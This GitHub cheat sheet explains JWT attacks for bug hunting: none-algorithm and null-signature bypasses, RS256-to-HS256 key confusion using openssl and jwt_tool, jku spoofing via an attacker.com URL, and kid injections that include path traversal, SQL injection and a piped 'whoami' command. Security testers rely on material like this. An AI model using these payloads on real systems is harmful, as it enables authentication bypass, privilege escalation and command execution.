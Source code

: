 # JWT_hacking

- None algorithm attack – CVE-2015-9235

    - This attack targets an option in the JWT standard for producing unsigned keys. The output literally omits any signature portion after the second dot. Due to weaknesses in some libraries or server configurations, a service may read our tampered request, see that it does not need to be signed, and then just accept it on trust. This can be exploited using JWT_Tool with the -X a option

ex-
 ![image](https://user-images.githubusercontent.com/56452603/152351911-bdfb088d-571e-4077-8ac3-b3a152cd473e.png)

- Signature checked or not ?
  - Try Delete some character from the signature and see what behaviour you will get by application
   - If an error message occurs the signature is being checked
   - If there is no any error occur then it's time to start tampering the Payload.
    
- RS256 to HS256 Key Confusion Attack – CVE-2016-5431
   - So here we are going to change the algorithm from RS256 to HS256. Hence, this way the workflow would convert from Asymmetric to Symmetric encryption and we can sign the new tokens with the same public key.
As this is a public key, so this key has to remain public. So you can find it by yourself on the internet or another potential source is the server’s TLS certificate, which may be being re-used for JWT operations:
command:
openssl s_client -connect <hostname>:443
  
    - Copy the “Server certificate” output to a file (e.g. cert.pem) and extract the public key (to a file called key.pem) by running:
  
     - openssl x509 -in cert.pem -pubkey -noout > key.pem
  
     - This how you can get public.pem of any host.

     - Save this public key in the file named public.pem
     - To change the algorithm we are again going to use the same tool named jwt_tool.
     - First, we will see what is the behaviour of the application with the given RS256 signed token.

     - Send JWT to validate the token

     - You can see token is validated by the server So let’s start changing the algorithm with the tool.
     - Command with an example :
     - To just change the algorithm we can use this command
     - python3 jwt_tool.py <JWT TOKEN> -S hs256 -k public.pem


- null signature
    - Delete the signature from the end of the token. If vulnerable the application will fail to check the signature as it sees nothing that needs checking.
    - $ python3 jwt_tool.py JWT_HERE -X n
   - If page returns valid then you have a bypass - go tampering.

- kid parameter injections
     - if there any kid parameter available in the token the you can check for path travesal,SQLI and RCE.

    - ex- 
 {
  ...
  ...
  "kid": "../../../../../../dev/null"  
  "kid": "xxxx' UNION SELECT 'aaa"  
  "kid": "key1|whoami"
 }

 - Attacks using the jku header
      - In the JWT header, developers can also use the jku parameter to specify the JSON Web Key Set URL. This parameter indicates where the application can find the JSON Web Key (JWK) used to verify the signature – basically the public key in JSON format.

     - To illustrate, let’s take the following JWT that uses the jku parameter to specify the public key:
 -ex.  
  {
  "alg": "RS256",
  "typ": "JWT",
  "jku":"https://example.com/key.json"
   }  
    - Using https://trusted (for example https://trusted@attacker.com/key.json), if the application checks for URLs starting with trusted

- Payload Tamppering
     - change payload and see waht behaviour you will get.
    -ex.
    { 
      "IsAdmin":"1",
      "role":"admin"
    }
    - check signeture is verified or not 
  
  

  # Tool
 - https://github.com/ticarpi/jwt_tool
 - https://github.com/hahwul/jwt-hack
    
 -  https://jwt.io/

  # Reference
  - https://kathan19.gitbook.io/howtohunt/jwt-attack/jwt_attack
  - https://github.com/ticarpi/jwt_tool/wiki
  - https://pentestbook.six2dez.com/enumeration/webservices/jwt
  - 
